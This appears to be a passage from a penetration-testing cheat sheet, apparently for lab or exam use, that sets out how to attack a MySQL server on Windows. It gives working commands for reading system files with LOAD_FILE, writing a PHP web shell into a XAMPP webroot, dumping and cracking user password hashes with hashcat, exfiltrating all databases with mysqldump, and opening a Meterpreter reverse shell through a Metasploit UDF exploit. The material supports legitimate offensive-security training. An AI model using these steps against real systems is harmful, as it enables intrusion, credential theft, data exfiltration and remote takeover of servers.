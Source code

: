 File read (Windows: safe test files):
```sql
-- Requires FILE privilege, secure_file_priv permitting reads
SELECT LOAD_FILE('C:/Windows/win.ini');
SELECT LOAD_FILE('C:/Windows/System32/drivers/etc/hosts');

-- If secure_file_priv points to a specific directory, only paths under it will succeed.
```

File write (possible web shell on Windows if webroot is known and FILE privilege allows it):
```sql
-- PHP web shell example (typical XAMPP path). Adjust path to actual webroot.
SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE 'C:/xampp/htdocs/shell.php';

-- If you hit: "The MySQL server is running with the --secure-file-priv option"
-- First find the allowed directory:
SHOW VARIABLES LIKE 'secure_file_priv';
-- Then write there and manually retrieve/abuse as appropriate.
```

Dump users and hashes:
```sql
-- MySQL 5.7+ (authentication_string present)
SELECT host, user, plugin, authentication_string FROM mysql.user;

-- Older versions (password column)
SELECT host, user, password FROM mysql.user;
```

Crack hashes with hashcat (MySQL 4.1+/5.x):
```bash
# Save hashes (just the hex hash) to mysql_hashes.txt, one per line.
# Hashcat mode 300: MySQL4.1/MySQL5 (double SHA1)
hashcat -m 300 -a 0 mysql_hashes.txt /usr/share/wordlists/rockyou.txt --username
```

Query via Nmap with credentials (useful for quick scripted checks):
```bash
# List users with NSE when creds are known
nmap -p3306 --script mysql-users --script-args mysqluser=USER,mysqlpass=PASS TARGET

# Run a query via NSE:
nmap -p3306 --script mysql-query --script-args 'query=SHOW DATABASES;,mysqluser=USER,mysqlpass=PASS' TARGET
```

Exfiltrate data:
```bash
# Database list
mysql -h TARGET -P 3306 -u USER -p -e "SHOW DATABASES;"

# Dump all databases (no locking, if permitted)
mysqldump -h TARGET -P 3306 -u USER -p --all-databases --single-transaction > all_dbs.sql
```

Optional: Windows code execution via UDF (Metasploit; requires high privileges):
```bash
# Use with caution; exam/lab rules may restrict this.
msfconsole -q
use exploit/windows/mysql/mysql_udf_payload
set RHOSTS TARGET
set LHOST KALI_IP
set PAYLOAD windows/meterpreter/reverse_tcp
set USERNAME USER
set PASSWORD PASS
run
```

